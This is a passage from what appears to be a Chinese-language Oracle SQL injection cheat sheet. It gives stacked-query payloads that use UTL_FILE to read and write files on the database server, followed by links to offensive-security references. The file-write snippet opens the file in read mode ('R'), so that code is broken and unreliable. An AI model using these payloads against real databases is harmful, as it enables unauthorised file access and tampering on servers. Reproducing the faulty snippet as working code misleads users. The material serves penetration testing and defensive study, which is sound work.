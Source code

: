 :warning: 仅在堆叠查询中可用。

### OracleSQL读取文件

```sql
utl_file.get_line(utl_file.fopen('/path/to/','file','R'), <buffer>)
```

### OracleSQL写入文件

```sql
utl_file.put_line(utl_file.fopen('/path/to/','file','R'), <buffer>)
```

## 参考文献

* [ASDC12 - 新改进的从Web入侵Oracle - Sumit “sid” Siddharth - 2021年11月8日](https://web.archive.org/web/20211108150011/https://owasp.org/www-pdf-archive/ASDC12-New_and_Improved_Hacking_Oracle_From_Web.pdf)
* [基于错误的注入 | NetSPI SQL注入维基 - NetSPI - 2021年2月15日](https://sqlwiki.netspi.com/injectionTypes/errorBased/#oracle)
* [ODAT: Oracle数据库攻击工具 - quentinhardy - 2016年3月24日](https://github.com/quentinhardy/odat/wiki/privesc)
* [Oracle SQL注入速查表 - @pentestmonkey - 2011年8月30日](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* [渗透测试Oracle TNS监听器 - HackTricks - 2024年7月19日](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener)
* [SQL注入知识库 - Roberto Salgado - 2013年5月29日](https://www.websec.ca/kb/sql_injection#Oracle_Default_Databases)